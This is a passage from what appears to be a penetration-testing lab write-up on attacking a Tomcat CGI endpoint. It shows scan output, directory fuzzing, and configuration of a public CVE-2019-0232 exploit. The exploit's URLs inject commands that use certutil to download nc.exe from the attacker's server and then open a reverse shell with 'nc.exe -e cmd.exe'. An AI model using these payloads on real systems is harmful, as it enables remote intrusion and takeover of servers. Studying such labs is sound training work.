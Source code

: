 ```
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1 📌
|_http-title: Apache Tomcat/9.0.0.M1 📌
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### Attacking Tomcat CGI

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -u http://10.129.53.134:8080/cgi/FUZZ.bat -w /usr/share/dirb/wordlists/common.txt -ic -t 30

[SNIP]

cmd                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 131ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ git clone https://github.com/jaiguptanick/CVE-2019-0232.git && cd CVE-2019-0232
```

```
┌──(nabla㉿kali)-[~/CVE-2019-0232]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~/CVE-2019-0232]
└─$ vim CVE-2019-0232.py

[SNIP]

host='10.129.53.134'#add host to connect
port='8080'#add port of host {default:8080}
server_ip='10.10.15.186'#server that has nc.exe file to get reverse shell
server_port='8000'
nc_ip='10.10.15.186'
nc_port='1337'
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 CVE-2019-0232.py
```
